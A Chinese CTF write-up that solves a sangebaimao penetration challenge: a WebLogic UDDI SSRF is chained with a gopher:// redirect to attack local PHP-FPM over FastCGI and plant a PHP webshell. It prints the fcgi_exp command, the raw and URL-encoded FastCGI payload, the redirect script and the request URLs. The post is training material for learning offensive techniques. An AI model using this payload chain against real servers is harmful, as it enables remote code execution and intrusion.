 ```yaml
---
title: sangebaimao 寻找来自星星的你一
date: 2016-06-04 01:10:53
tags:
- Blogs
- gopher
- sangebaimao
- fcgi
- ssrf
categories:
- Blogs
---
```


第一次正式做三个白帽的题目，能做出来挺不容易，还踩了很多坑，研究一下gopher协议...

<!--more-->


# 挑战介绍 #
来自星星的你被我给丢了，我可能需要用我所有的一切才能把你找回，编了两句就编不下去了，好吧，我承认这是一期渗透题，就是这么直接。   
  
tips 1: SSRF 
tips 2: 或许可以扫描下目录？ 
tips 3: /console/ 这个目录会对你有帮助

# wp #

## Discuz X3.2 ##

打开页面首先是Discuz X3.2的站，搜了搜发现是6月1号才发布的新版本，稍微搜了搜网上的几个洞发现都已经被修复了，于是咸鱼了一夜，获得**hint:ssrf**

搜索依法发现长亭的rr菊苣发了一篇文章
[https://blog.chaitin.com/gopher-attack-surfaces/](https://blog.chaitin.com/gopher-attack-surfaces/)

里面提到discuz X3.2存在ssrf，利用ssrf+gopher协议可getshell

但是这个利用方式有个一个很重要的问题就是服务器必须开启 Gopher wrapper，且php运行方式是fastcgi。

扫一波目录发现了info.php，通过phpinfo()我们发现并没有开启 Gopher wrapper。

咸鱼了一会儿发现了**hint3/console/**

通过这个发现存在weblogin站。。。

## webLogin ##

这里的洞很简单了，稍微搜下发现
[http://www.wooyun.org/bugs/wooyun-2015-0136698](http://www.wooyun.org/bugs/wooyun-2015-0136698)

测试发现**http://0761e975dda0c67cb.jie.sangebaimao.com/uddiexplorer/SearchPublicRegistries.jsp**这里的洞确实存在。

而且可以配合前面提到的gopher协议getshell

根据长亭博客的文章首先测试
在服务器构造
```
<?php
header("Location:gopher://服务器ip:2333/_test");
?>
```
然后在服务器监听2333端口
```
nc -lvv 2333
```
提交请求
```
http://0761e975dda0c67cb.jie.sangebaimao.com/uddiexplorer/SearchPublicRegistries.jsp?
operator=http://服务器ip/gopher.php
&rdoSearch=name
&txtSearchname=sdf
&txtSearchkey=
```
发现确实收到了test，确认gopher可利用

那么就是构造payload了

有篇很重要的文章关于fastcgi的利用
[http://zone.wooyun.org/content/1060](http://zone.wooyun.org/content/1060)

用exp生成payload
```
./fcgi_exp system 127.0.0.1 2333 /opt/discuz/info.php "echo ‘\$_GET[x](\$_POST[xx]);’ > /opt/discuz/data/test.php"
```
ps:$这个在shell中会直接当作变量处理，所以需要转义（踩坑了...）
监听2333端口
```
nc -lvv 2333 > 1.txt
```
我们可以看下1.txt
```
root@ubuntu:/home/wwwroot/default/fcgi_exp# xxd 1.txt
0000000: 0101 0001 0008 0000 0001 0000 0000 0000  ................
0000010: 0104 0001 0112 0600 0f14 5343 5249 5054  ..........SCRIPT
0000020: 5f46 494c 454e 414d 452f 6f70 742f 6469  _FILENAME/opt/di
0000030: 7363 757a 2f69 6e66 6f2e 7068 700d 0144  scuz/info.php..D
0000040: 4f43 554d 454e 545f 524f 4f54 2f0f 1053  OCUMENT_ROOT/..S
0000050: 4552 5645 525f 534f 4654 5741 5245 676f  ERVER_SOFTWAREgo
0000060: 202f 2066 6367 6963 6c69 656e 7420 0b09   / fcgiclient ..
0000070: 5245 4d4f 5445 5f41 4444 5231 3237 2e30  REMOTE_ADDR127.0
0000080: 2e30 2e31 0f08 5345 5256 4552 5f50 524f  .0.1..SERVER_PRO
0000090: 544f 434f 4c48 5454 502f 312e 310e 0343  TOCOLHTTP/1.1..C
00000a0: 4f4e 5445 4e54 5f4c 454e 4754 4831 3033  ONTENT_LENGTH103
00000b0: 0e04 5245 5155 4553 545f 4d45 5448 4f44  ..REQUEST_METHOD
00000c0: 504f 5354 095b 5048 505f 5641 4c55 4561  POST.[PHP_VALUEa
00000d0: 6c6c 6f77 5f75 726c 5f69 6e63 6c75 6465  llow_url_include
00000e0: 203d 204f 6e0a 6469 7361 626c 655f 6675   = On.disable_fu
00000f0: 6e63 7469 6f6e 7320 3d20 0a73 6166 655f  nctions = .safe_
0000100: 6d6f 6465 203d 204f 6666 0a61 7574 6f5f  mode = Off.auto_
0000110: 7072 6570 656e 645f 6669 6c65 203d 2070  prepend_file = p
0000120: 6870 3a2f 2f69 6e70 7574 0000 0000 0000  hp://input......
0000130: 0104 0001 0000 0000 0105 0001 0067 0100  .............g..
0000140: 3c3f 7068 7020 7379 7374 656d 2827 6563  <?php system('ec
0000150: 686f 20e2 8098 5b61 5d28 5b68 685d 293b  ho ...[x]([xx]);
0000160: e280 9920 3e20 2f6f 7074 2f64 6973 6375  ... > /opt/discu
0000170: 7a2f 6461 7461 2f64 646f 672e 7068 7027  z/data/test.php'
0000180: 293b 6469 6528 272d 2d2d 2d2d 3076 6364  );die('-----0vcd
0000190: 6233 346f 6a75 3039 6238 6664 2d2d 2d2d  b34oju09b8fd----
00001a0: 2d0a 2729 3b3f 3e00                      -.');?>.

```
然后需要urlencode一下

```
>>> f = open('1.txt')
>>> ff = f.read()
>>> from urllib import quote
>>> quote(ff)
'%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%12%06%00%0F%14SCRIPT_FILENAME/opt/discuz/info.php%0D%01DOCUMENT_ROOT/%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH103%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00g%01%00%3C%3Fphp%20system%28%27echo%20%E2%80%98%5Bx%5D%28%5Bxx%5D%29%3B%E2%80%99%20%3E%20/opt/discuz/data/test.php%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00'
```

构造gopher.php
```
<?php
header("gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%12%06%00%0F%14SCRIPT_FILENAME/opt/discuz/info.php%0D%01DOCUMENT_ROOT/%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH103%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00g%01%00%3C%3Fphp%20system%28%27echo%20%E2%80%98%5Bx%5D%28%5Bxx%5D%29%3B%E2%80%99%20%3E%20/opt/discuz/data/test.php%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00");
?>
```
请求
```
http://0761e975dda0c67cb.jie.sangebaimao.com/uddiexplorer/SearchPublicRegistries.jsp?
operator=http://ip/gopher.php
&rdoSearch=name
&txtSearchname=sdf
&txtSearchkey=
&txtSearchfor=
&selfor=Business+location
&btnSubmit=Search
```

由于discuz的data默认可写，所以成功写入webshell，有个问题就是不知道为什么一直不能反弹shell进来

# 题目之后？ #

在做完题目之后想要深究一波原理，结果突然发现题目其实去年的hitcon quals的web400 lalala

[http://kb.hitcon.org/post/131488130087/hitcon-ctf-2015-quals-web-%E5%87%BA%E9%A1%8C%E5%BF%83%E5%BE%97](http://kb.hitcon.org/post/131488130087/hitcon-ctf-2015-quals-web-%E5%87%BA%E9%A1%8C%E5%BF%83%E5%BE%97)

整个题目的核心概念就是通过302 绕过限制 SSRF，然后通过 SSRF 中的 gopher 去利用本地的 FastCGI prtocol 实现远程代码执行

实际中如果php fastcgi对公网开放，那么就可以拿shell

php-fpm默认监听9000端口，使用 PHP_ADMIN_VALUE 把 allow_url_include 设为 on 以及新增 auto_prepend_file，利用php://input执行php代码写一个shell

# gophar协议 #

有趣的是gophar协议，以前没接触过
[https://www.ietf.org/rfc/rfc1436.txt](https://www.ietf.org/rfc/rfc1436.txt)

![](/img/sangebaimao/1.jpg)
看看构造
第一个参数是type
![](/img/sangebaimao/2.jpg)
然后如果是其他字符，好像默认为1

然后是一大堆奇怪的东西
![](/img/sangebaimao/3.jpg)
![](/img/sangebaimao/4.jpg)

搞不明白，有机会继续研究